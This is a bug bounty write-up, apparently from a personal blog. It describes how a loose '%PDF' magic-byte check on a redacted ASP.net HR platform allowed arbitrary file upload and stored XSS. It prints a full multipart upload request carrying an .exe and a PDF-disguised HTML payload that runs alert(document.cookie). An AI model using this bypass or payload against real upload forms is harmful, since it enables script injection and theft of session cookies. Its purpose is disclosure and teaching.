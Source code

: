 ```yaml
---
title: Arbitary File Upload too Stored XSS
tags: [Bug Bounty, Arbitary File Upload, Stored XSS]
description: Readacted Writeup of how I got Stored XSS by Exploiting a Unrestricted File Upload bug. 
published: true
image: https://dpsvdv74uwwos.cloudfront.net/statics/img/blogposts/exploiting_ssrf_vulnerability.png
thumbnail: https://dpsvdv74uwwos.cloudfront.net/statics/img/blogposts/exploiting_ssrf_vulnerability.png
---
```




##  Introduction



Recently I was working on a private bug bounty program which was relatively new so I decided to check it out, I did not obtain full disclosure hence the redacted post.



The Web Application provided a HR and Bookkeeping platform similar to Sage but online and written in ASP.net. Due to improper checking on file uploads, I was able to bypass the restrictions in place to upload a `.html` containing `PDF` magic-bytes and include arbitary `JavaScript` thus gaining `Stored XSS`



##  Basic Enumeration



My initial enumeration on the application started by clicking through the application and discovering as many parameters as possible. While doing this I came across a interesting form which allowed users to attach `PDF's` only. 



It appeared that the application was checking 2 things to ensure that the user only uploaded a `PDF`, Firstly it checked if the `Content-Type` matched `application/pdf` and secondly carried out some `MIME Sniffing` by ensuring the body contained the PDF Magic Bytes `%PDF`



However while the application checked if the supplied file contained `%PDF` it did not check where the magic-bytes where, therefore providing the file you uploaded contained `%PDF` anywhere it would be accepted. 

  



## Exploiting / PoC



At this point I decided to try upload a basic `.exe` as a `PoC` and was able too do some with the below request.



```
POST /api/internal/salesdocumentattachment/upload/image HTTP/1.1
Host: xxxxxxx.readacted.com
Connection: close
Content-Length: 471870
X-XSRF-Token: readacted
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Accept: application/json
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6Bbv3VuL9Lj78ZWq
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: 

------WebKitFormBoundary6Bbv3VuL9Lj78ZWq
Content-Disposition: form-data; name="file"; filename="m0chan.exe"
Content-Type: application/pdf

MZýýýý@ýýý  ý!ýLý!This program %PDFcannot be run in DOS mode.

readacted file content
------WebKitFormBoundary6Bbv3VuL9Lj78ZWq--
```



As you can see I added the `%PDF` magic byte inside the first string and it got accepted, an attacker could easily compile a application with `%PDF` as a string and it would get accepted. However I decided I would try elevate the severity of this by trying to upload a shell or a `.svg`



After a few hours of trying various different web languages it appeared that the download link I was accessing to download my uploads was not interpreting anything or being served, however it did offer a preview functionality. 



I crafted a payload with help of my friend [@fuckup](https://twitter.com/fuckup_1337) which contained the PDF MagicBytes, Arbitary JavaScript and was uploaded as a `.html`



```
%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<h1>This is NOT a PDF!</h1> <img src=x onerror=alert(document.cookie)>
```



After uploading I visited the URL directly and was greeted with the following :) 

<img align ="center" src ="http://i.imgur.com/lruxehV.png"></img>



I found it really strange that only `.html` was being interpreted and tried for a few more hours to serve other web-languages with no avail.



I later discovered the uploaded files were not actually being uploaded to the webserver itself so would never have been interpreted. 



 ## Timeline



**Tuesday 3rd Feb** - Reported Arbitary File Upload too H1

**Tuesday 4th Feb** - Added Stored XSS too Report

**Tuesday 5th Feb**- Triaged and Bounty Awarded

**Monday 2nd March - Resolved**




